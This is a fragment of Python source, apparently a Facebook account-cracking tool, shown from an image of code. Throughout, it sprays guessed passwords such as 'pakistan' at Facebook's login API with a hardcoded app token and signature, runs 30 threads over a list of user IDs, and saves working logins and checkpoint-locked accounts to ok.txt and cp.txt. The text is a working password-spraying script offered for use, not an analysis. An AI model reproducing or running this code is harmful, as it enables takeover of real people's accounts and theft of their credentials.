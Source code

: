 		                                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass6+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                cp=open("cp.txt","a")
		                                                cp.write(uid+" | "+pass6+"\n")
		                                                cp.close()
		                                                cps.append(uid)
		                                            else:
		                                                if 'access_token' in d:
		                                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass6+" | "+name)
		                                                    ok=open("ok.txt","a")
		                                                    ok.write(uid+" | "+pass6+"\n")
		                                                    ok.close()
		                                                    oks.append(uid)
		                                                else:
		                                                    pass7="pakistan"
		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                                    d=json.loads(q)
		                                                    if 'www.facebook.com' in d['error_msg']:
		                                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass7+"\x1b[1;91m | \x1b[1;97m"+name)
		                                                        cp=open("cp.txt","a")
		                                                        cp.write(uid+" | "+pass7+"\n")
		                                                        cp.close()
		                                                        cps.append(uid)
		                                                    else:
		                                                        if 'access_token' in d:
		                                                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass7+" | "+name)
		                                                            ok=open("ok.txt","a")
		                                                            ok.write(uid+" | "+pass7+"\n")
		                                                            ok.close()
		                                                            oks.append(uid)
		                                        
									
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print("\033[1;97m--------------------------------------------------")
	print ('\033[1;97m[+]\033[1;97m Process Has Been Completed')
	print('\033[1;97m[+]\033[1;97m Total CP/OK:\033[0;97m  '+str(len(cps))+'/\033[1;92m '+str(len(oks)))
	print("\033[1;97m--------------------------------------------------")
	raw_input("Press Enter To Main Menu Back")
	menu()
	
if __name__ == '__main__':
    tech_abm()

